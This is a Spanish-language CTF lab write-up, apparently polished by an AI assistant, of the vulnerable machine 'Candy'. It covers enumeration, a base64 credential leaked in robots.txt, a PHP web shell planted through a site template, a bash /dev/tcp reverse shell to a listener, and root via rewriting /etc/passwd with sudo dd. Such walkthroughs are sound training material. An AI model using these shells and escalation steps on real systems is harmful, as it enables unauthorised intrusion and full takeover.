


Claro, aquí tienes **todo tu informe técnico completamente redactado**, con **explicaciones claras y mejoradas**, **manteniendo exactamente tus rutas de imágenes**, y **la primera imagen ubicada antes del título 🧩 Descripción y despliegue de la máquina**, tal como pediste:

---

# 📄 Reporte Técnico - Máquina Vulnerable: **Candy**

**Nivel:** Fácil


---


### 🧩 Descripción y despliegue de la máquina

Se descargó la máquina vulnerable `candy.zip` y se descomprimió con:

```bash
unzip candy.zip
```

Luego se desplegó con:

```bash
sudo bash auto_deploy.sh candy.tar
```


---

### 🔗 Verificación de conectividad

Se hizo un ping para confirmar conexión con la máquina:

```bash
ping -c1 172.17.0.3
```


---

### 🔍 Escaneo de puertos

Se usó Nmap para buscar puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Solo se detectó el puerto **80 (HTTP)**.


Se escanearon versiones y scripts:

```bash
nmap -sC -sV -p80 172.17.0.3 -oN target.txt
```


---

### 🌐 Análisis del sitio web

Al ingresar a `http://172.17.0.3:80` se visualiza una página con formularios de login y registro.


---

### 📁 Enumeración de directorios

Se utilizó `gobuster` para descubrir rutas ocultas:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se encontraron muchos directorios interesantes como:

```
/images /media /templates /modules /plugins /includes /language
/README.txt /components /api /cache /index.php /robots.txt /tmp
/LICENSE.txt /layouts /administrator /configuration.php /htaccess.txt /cli
```


---

### 👤 Descubrimiento de usuario

Dentro del panel de administración (`/administrator/index.php`), se encontró el usuario: `TLuisilloo`.


---

### 🔐 Análisis del archivo robots.txt

En `http://172.17.0.3/robots.txt` se encontró una posible credencial: `admin:c2FubHVpczEyMzQ1`.

Se decodificó con:

```bash
echo c2FubHVpczEyMzQ1 | base64 -d
```

Resultado: **sanluis12345**


---

### ✅ Acceso como administrador

Con `admin : sanluis12345` se ingresó exitosamente en:

* [http://172.17.0.3/administrator/index.php](http://172.17.0.3/administrator/index.php)
* [http://172.17.0.3/index.php](http://172.17.0.3/index.php)


---

### 📂 Subida de web shell

Desde el panel: `System > Site Templates`, se puede modificar plantillas para subir código malicioso.


---

## 🔧 Método de Explotación 1: Web Shell PHP

En la línea 143 del archivo `index.php`, se insertó:

```php
<?php echo system($_GET['shadow']); ?>
```

Este código permite ejecutar comandos desde el navegador.

### Explicación:

* `$_GET['shadow']`: Toma el parámetro `shadow` de la URL.
* `system()`: Ejecuta ese comando.
* `echo`: Muestra el resultado.

### Ejemplos:

```http
http://172.17.0.3/index.php?shadow=ls
http://172.17.0.3/index.php?shadow=cat%20/etc/passwd
```


---

## 🌀 Método 2: Reverse Shell en PHP

Se vuelve a insertar:

```php
<?php echo system($_GET['shadow']); ?>
```


Se accede a:

```
http://172.17.0.3/?shadow=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.1.10/433+0>%261'
```

📌 Nota: Cambia la IP y el puerto por los tuyos.

Antes de ejecutarla, abre el puerto en escucha:

```bash
sudo nc -lvnp 433
```


---

## 🧗 Escalada de privilegios

Se buscaron archivos `.txt`:

```bash
find / -name "*.txt" 2>/dev/null
```

Se encontró:

```
/var/backups/hidden/otro_caramelo.txt
```




Al revisar su contenido:

```bash
cat /var/backups/hidden/otro_caramelo.txt
```

Se encontraron credenciales:

```php
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
```


---

### 🧪 Sudo y escalada con `/bin/dd`

Accedimos con `luisillo` y se ejecutó:

```bash
sudo -l
```

Resultado:

```
(ALL) NOPASSWD: /bin/dd
```


---

### 🔐 Modificando `/etc/passwd` para root shell

1. Copiar el archivo:

```bash
cat /etc/passwd > copia.txt
```

2. Eliminar las `x` (que indican autenticación):

```bash
sed 's/x//g' copia.txt > copia_sin_x.txt
```

3. Sobrescribir `/etc/passwd` con permisos root:

```bash
cat copia_sin_x.txt | sudo /bin/dd of=/etc/passwd
```

4. Ingresar como root:

```bash
su
```



